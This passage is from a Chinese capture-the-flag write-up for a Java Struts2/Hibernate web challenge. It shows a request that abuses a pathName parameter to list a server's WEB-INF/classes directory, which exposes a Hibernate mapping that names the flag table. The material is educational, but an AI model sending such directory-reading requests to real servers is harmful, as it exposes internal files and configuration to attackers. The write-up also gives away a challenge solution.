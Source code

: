 ```java
    Map<String, Object> request = (Map)actionContext.get("request");
    if (files != null) {
      for (int i = 0; i < files.length; i++) {
        fileList.add(files[i].getName());
        System.out.println(files[i].getName());
      } 
      request.put("fileList", fileList);
    } else {
      System.out.println("目录错误");
      request.put("error", "目录输入错误");
    } 
  }
}
```

可以读目录,fuzz一下，在

```
list?pathName=/opt/tomcat/webapps/ROOT/WEB-INF/classes
```

下找到user.hbm.xml

```xml
<?xml version="1.0"?>
<!DOCTYPE hibernate-mapping PUBLIC
        "-//Hibernate/Hibernate Mapping DTD 3.0//EN"
        "http://hibernate.sourceforge.net/hibernate-mapping-3.0.dtd">
<hibernate-mapping package="com.cuitctf.po">
    <class name="User" table="hlj_members">
        <id name="id" column="user_id">
            <generator class="identity"/>
        </id>
        <property name="name"/>
        <property name="password"/>
    </class>
    <class name="Flag" table="bc3fa8be0db46a3610db3ca0ec794c0b">
        <id name="flag" column="welcometoourctf">
            <generator class="identity"/>
        </id>
        <property name="flag"/>
    </class>
</hibernate-mapping>
```

### 参考资料

struct2 action详解:

https://blog.csdn.net/bestmy/article/details/81068026

大佬的wp:

https://www.guildhab.top/?p=648